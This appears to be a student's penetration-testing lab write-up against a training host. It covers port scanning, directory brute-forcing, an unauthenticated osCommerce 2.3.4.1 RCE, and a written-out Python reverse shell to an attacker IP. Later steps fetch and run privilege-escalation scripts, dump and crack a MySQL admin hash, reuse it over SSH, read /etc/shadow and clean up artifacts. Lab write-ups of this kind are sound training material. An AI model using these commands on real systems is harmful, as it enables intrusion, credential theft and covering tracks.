

# Module 5 - Hands on

## Target
- hostname : mod5handson
- IP address : 172.31.220.160


## Enumeration

nmap scan : what are you working for, what services 
```
nmap -p- -Pn -n -sS --min-rate 3000 172.31.220.160 -oA fastscan_result
>> nmap -p- --max-retries 1 -Pn -n -sS 172.31.220.160 -oA fastscan_result
don't need to speed up.

top ports at the same time
nmap --top-ports 1000 -Pn -n -sS 172.31.220.160 -oA tcp1000
```


detailed
```
nmap -p 22,8080 -Pn -n -sV -sC 172.31.220.160 -oA specificscan

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-12 03:56 EDT
Nmap scan report for 172.31.220.160
Host is up (0.0058s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 aa:24:c2:14:1f:23:6b:8a:93:ea:0b:95:9c:69:37:bd (ECDSA)
|_  256 f9:74:fb:56:95:92:11:46:be:c0:41:71:d8:f6:8f:13 (ED25519)
8080/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Under Construction...
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


ssh
- need to know version. and more scripts? no too much  
- openssh 8.9p1 when? recently. no interesting
- public key method (ssh-auth-method)

### Web(8080)
just skip scripts, just look through burpsuite
- server versions : Ubuntu + Apache/2.4.18
- view-source and wanna see the webapplication
- looks like a online shopping mall
    - links : non related
- wappalyzer : Apache
- robots.txt  - X 


- dir brute force - gobuster 
    - interesting dir
        - /docs
        - /catalog 
        - phpmyadmin

```
gobuster dir -u http://172.31.220.160:8080 -w /usr/share/dirb/wordlists/common.txt -t 20

/catalog              (Status: 301) [Size: 325] [--> http://172.31.220.160:8080/catalog/]
/cgi-bin/             (Status: 403) [Size: 299]
/.htaccess            (Status: 403) [Size: 300]
/.htpasswd            (Status: 403) [Size: 300]
/.hta                 (Status: 403) [Size: 295]
/css                  (Status: 301) [Size: 321] [--> http://172.31.220.160:8080/css/]
/docs                 (Status: 301) [Size: 322] [--> http://172.31.220.160:8080/docs/]
/favicon.ico          (Status: 200) [Size: 5558]
/index.php            (Status: 200) [Size: 1076]
/phpmyadmin           (Status: 301) [Size: 328] [--> http://172.31.220.160:8080/phpmyadmin/]
```
- interesting asseement first, and then when only interesting dir comes out, 
    - file e.g. txt,backup,docxs,xlsx
```
gobuster dir -u http://172.31.220.160:8080 -w /usr/share/dirb/wordlists/common.txt -t 20 -x txt,backup,... 
```

#### /docs : osCommerce 2.3.4.1 found
- but anothers are not related

#### /phpmyadmin
- not empty password setting (root:) 


- but hydra brute force later on?


#### /catalog : installation page shown
    - language- php, OS- ubuntu version - old but skip 
    - it needs the username:password
    - rollback or replace set-up possible

-  osCommerce searchsploit and googling first
```
searchsploit osCommerce 2.3.4.1 -m 44374 
```

#### osCommerce 
- osCommerce 2.3.4
- 10 years ago, highly
- RCE unauthenticated
    - if /install exists, create config file and payload will be injected via `define(trim())` function., and execute by visiting configure.php


## Exploitation and Initial Access (Docker)

- PoC : `python -h` payload execution


- revshells rightaway, not in command, 
    1. php
    2. python
    - `wget file` and execute as `python pythonexp.py`  

- pythonexp.py
```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.0.129",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```


- fully interactive TTY upgrade
    - which shell? > xterm256-color 

```
python3 -c 'import pty;pty.spawn("/bin/bash")' 
ctrl+Z 
stty raw -echo;fg
reset 

which shell? xterm-256color 
or
export SHELL=bash : what shell I'm using is bash
export TERM=xterm-256color : what terminal I'm using is xterm-256color for color 
```

-  initial access to Docker 
    - whoami : I'm web service but docker, because 
    - `hostname` - docker's name 
    - `/.dockerenv` 

anyway, in docker, to go to host, 
1. escape docker or 
2. host creds ssh etc. 

- just basic manual information gathering(enumeration) ok, but not too much spending time no

    - e.g.  
    - network
        - `netstat -ano`  : X
        - `ss -ntpl`

    - running process
        - `ps faux`
        - `ps -ef` 

    - mysql creds? > conf? or php source code? 
        - `grep . -ri passw* *.conf` or
        - `grep /etc/mysql/ -ri passw*`


    - SUID
        - `find / -type f -perm -4000 2>/dev/null` : no interesting
        - `find / -type f -perm 777 2>/dev/null` : X

    - `sudo -l`

    - SSH key 
    - ...etc


    - *.conf (mysql or http or ) > creds info
        - `find ./ -name *.conf`


    - notice that mysql is running in localhost. +  mysql's initial creds is basically root:x 


- early automatic tools(linpeas / linenum) rather than manual assessment

#### linpeas
 
Kali -> Host
```
wget http://kaliip/linpeas.sh
sh linpeas.sh | tee linpeas.output

created date
date > Fri Jul 12 06:55:23 UTC 2024
```
- not working.> linenum
    - copy raw file > wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh 
    - sh ./LinEnum.sh 

- found out local only MySQL - root: try?
```
grep -i mysql linenum.output
or
linenum | grep -ri mysql
[+] We can connect to the local MYSQL service as 'root' and without a password! 
```
- maybe root:x possible

```
mysql -u root -p
enter
```

- interesting table: administrators 
    - webadmin:Hash get
- `hashidentifier` 
    - input:hash > MD5(Wordpress) > cracking easily 

```
john --wordlist=/usr/share/wordlists/rockyou.txt md5.txt
john --show md5.txt
```

1. osCommerce admin page can but there's no way to put the creds
2. ssh creds (cuz maybe there's web server service's account.)

## Post-Exploitation (privilege escalation)

- after ssh,

- in host, webadmin 
```
whoami
id
```

- also do linpeash/linenum
    - `linpeas.sh | tee linpeas.output` > see only orange underline 
    - SUID env  exploit 

- in root, 
PoC -
```
whoami
id 
cd /root
cat /etc/shadow
```

- delete all artifacts /dev/shm